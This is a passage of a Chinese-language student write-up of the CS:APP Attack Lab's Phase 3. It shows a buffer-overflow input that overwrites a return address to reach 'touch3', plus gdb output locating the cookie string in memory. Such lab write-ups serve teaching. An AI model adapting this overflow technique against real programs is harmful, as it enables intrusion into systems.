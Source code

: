 我们的目标是通过代码注入的方式，令程序跳转至 ``touch3``， 且在寄存器 %rdi 中存入我们想要注入字符串的地址，并在 ``hexmatch`` 中匹配生成的字符串的前9位。然而，生成字符串的地址使用了 ``random()`` 函数，其明确表示该字符串是难以预测的。

首先，我们先跳转到 ``touch3``。与 Phase 1 类似，输入可以覆盖返回地址并修改返回地址为 ``touch3`` 的序列为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
fa 18 40 00
```

 我们按 Phase 1 的操作将上述序列输入至 ctarget，并在 0x4018cf，即函数 ``strncmp`` 处打断点，执行后如下所示

```shell
(gdb) break *0x4018cf
Breakpoint 1 at 0x4018cf: file visible.c, line 67.
(gdb) r -q -i p1_l3_raw.txt
...
(gdb) disas
Dump of assembler code for function hexmatch:
...
   0x00000000004018bf <+115>:   callq  0x400e70 <__sprintf_chk@plt>
   0x00000000004018c4 <+120>:   mov    $0x9,%edx
   0x00000000004018c9 <+125>:   mov    %rbx,%rsi
   0x00000000004018cc <+128>:   mov    %rbp,%rdi
=> 0x00000000004018cf <+131>:   callq  0x400ca0 <strncmp@plt>
```

这里就可以看出第一个输入的参数在 %rdi，对应sval；第二个输入的参数在 %rsi，对应s。查看寄存器中的值

```shell
(gdb) info registers rdi
rdi            0xd49260 13931104
(gdb) info registers rsi
rsi            0x5561dc13       1432476691
```

显然 0x5561dc13 就是

```c
char *s = cbuf + random() % 100;
```

计算出的值。由于此处存在随机因素，我们重复执行上述的操作，并查看 %rsi 中的值

```shell
(gdb) info registers rsi
rsi            0x5561dc13       1432476691
```

可以发现无论我们执行多少次，储存在 %rsi 中的值均不变。这里可能是一个伪随机数。

sprintf(s, "%.8x", val) 作用是把传入的 cookie 值存放在地址 0x5561dc13 上。

```shell
(gdb) x/s 0x5561dc13
0x5561dc13:     "59b997fa"
(gdb) x/8x 0x5561dc13
0x5561dc13:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
```
